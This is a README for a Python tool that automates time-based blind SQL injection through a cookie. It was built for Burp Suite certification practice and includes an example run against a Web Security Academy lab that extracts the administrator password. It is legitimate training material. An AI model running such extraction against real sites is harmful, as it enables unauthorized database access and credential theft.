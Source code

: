 # BSQLi
## Description
This tool help to extract data from databases with blind SQLi Injections  
I made this tool while preparing for BURP Practitioner certification. As most labs suggest to inject Blind SQLi in cookie,
this first version injects only in a specified cookie and only extracts password from table 'users' with columns 'username'
and 'password' of a single user.

## Requirements 
This script works with python 3.X
and needs requests module  
`pip3 install requests`

## Usage
```bash
PS C:\BSQLi> python .\bsqli.py -h 
usage: bsqli.py [-h] [-u U] [--cookies COOKIES] [--target TARGET] [--threshold THRESHOLD]

Automate Blind SQLI

optional arguments:
  -h, --help            show this help message and exit
  -u U                  urls to test
  --cookies COOKIES     cookies
  --target TARGET       target cookie to inject
  --threshold THRESHOLD
                        sleep value
```
example :
```bash
PS C:\BSQLi> python .\bsqli.py -u https://0ab4006203554a31c012a430005400b3.web-security-academy.net/ --cookies "TrackingId=XKIVlpvhenclkwq9; session=ooCCcMKy1o34VwWinSuRNvyssm3OkZJD" --target TrackingId --threshold 7

         ####    ###    ###   #        #
         #   #  #   #  #   #  #
         #   #  #      #   #  #       ##
         ####    ###   #   #  #        #
         #   #      #  #   #  #        #
         #   #  #   #  #   #  #        #
         ####    ###    ###   #####   ###
                           ##

testing 'https://0ab4006203554a31c012a430005400b3.web-security-academy.net/' for blind SQLi
Will sleep for 7 for the correct values.
[+] Connected to URL
[+] Target injectable
[+] Got user administrator
getting length.....
[+] Length is : 20
Extracting Data ....
blei2n48bania9gh6pgn
[+] Got : blei2n48bania9gh6pgn

```